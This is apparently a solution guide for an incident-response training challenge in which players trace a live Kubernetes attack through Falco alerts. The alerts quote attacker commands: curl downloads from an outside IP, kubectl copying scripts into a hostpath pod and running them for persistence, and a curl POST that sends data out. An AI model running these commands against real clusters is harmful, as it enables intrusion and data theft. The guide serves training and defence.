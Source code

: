 # It's Happening, Everybody Stay Calm!

*Solution Guide*

## Overview

A "live attack" is happening in real time. Players must monitor alerts, identify the source of the attack, and eradicate it to solve this challenge. Players should keep logs of the attack to find the attacker's location.

## Question 1

*After viewing Mattermost alerts, identify and eradicate the attack, including any sign of persistence. Upon completing these steps, initiate system check for automatic grading.*

The "Getting Started" section of the challenge document tells the players each team member was provided a Mattermost account to review incoming alerts. Five Mattermost accounts have been created. 

1. Log into Mattermost `chat.merch.codes` with given credentials. When the attack begins, alerts about unauthorized actions occurring in the cluster start arriving in the **Falco_Alerts** chat.
2. Review incoming alerts. Every alert is important as it guides you through the steps the attacker is performing live inside the cluster. 

### Incoming "Falco_Alerts" details

The order and amount of your alerts might be different.

- Informational alerts of topology's services being deployed.
- Critical Alert: "Launch Ingress Remote File Copy Tools in Container". Command ran was `curl -L0 http://123.45.67.110/files/kubectl --output kubectl`; executed from `coupons` pod.
- Critical Alert: "Launch Ingress Remote File Copy Tools in Container". Command ran was `curl -L0 http://123.45.67.110/files/cron/cron.yml --output cron.yml`; executed from `coupons` pod.
- Critical Alert: "Launch Ingress Remote File Copy Tools in Container". Command ran was `curl -L0 http://123.45.67.110/files/cron/verify.sh --output verify.sh`; executed from `coupons` pod.
- Critical Alert: "Launch Ingress Remote File Copy Tools in Container". Command ran was `curl -L0 http://123.45.67.110/files/cron/run.sh --output run.sh`; executed from `coupons` pod.
- Critical Alert: "Launch Ingress Remote File Copy Tools in Container". Command ran was `curl -L0 http://123.45.67.110/files/exfil/exfiltration.sh --output exfiltration.sh`; executed from `coupons` pod.
- Warning Alert: "Contact K8S API Server From Container". Command ran was `kubectl apply -f jobs.yaml`; executed from `coupons` pod.
- Warning Alert: "Contact K8S API Server From Container". Command ran was `kubectl get pods`; executed from `coupons` pod.
- Warning Alert: "Contact K8S API Server From Container". Command ran was `kubectl cp cron hostpath-exec-job-ms2kp:/host/root/.kube/`; executed from`coupons` pod.
- Warning Alert: "Contact K8S API Server From Container". Command ran was `kubectl cp exfil hostpath-exec-job-ms2kp:/host/root/.kube/`; executed from `coupons` pod.
- Warning Alert: "Contact K8S API Server From Container". Command ran was `kubectl exec -it hostpath-exec-job-ms2kp -- sh /host/root/.kube/cron/run.sh`; executed from `coupons` pod.
- Critical Alert: "Write below root". File created called: `exfiltration.sh`.
- Warning Alert: "Unauthorized Pod Attempted to Execute Curl/Wget". Here we see a `curl -X POST -F data=ENCRYPTED-MESSAGE http://123.45.67.110/upload` coming from a new pod called `data-analysis-ps87s`.
- Informational alerts of more stuff being created in the cluster. 
